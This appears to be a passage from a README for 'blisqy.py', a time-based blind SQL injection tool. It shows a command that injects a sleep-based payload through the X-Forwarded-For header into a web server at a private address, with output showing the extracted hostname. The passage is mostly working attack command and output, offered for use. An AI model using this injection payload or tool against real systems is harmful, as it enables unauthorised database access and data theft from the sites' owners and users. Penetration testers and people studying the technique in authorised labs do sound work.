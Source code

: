 ## Custom Payload:

### Command

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" --sleeptime 0.1  
            --inject "' or if((*sql*),sleep(*time*),0) and '1'='1" --payload "select @@hostname" 
```

### Out-put

```bash
Extracting Data from ====> 192.168.56.101 : 80 
Current Payload : select @@hostname
==================================================================
debian
```
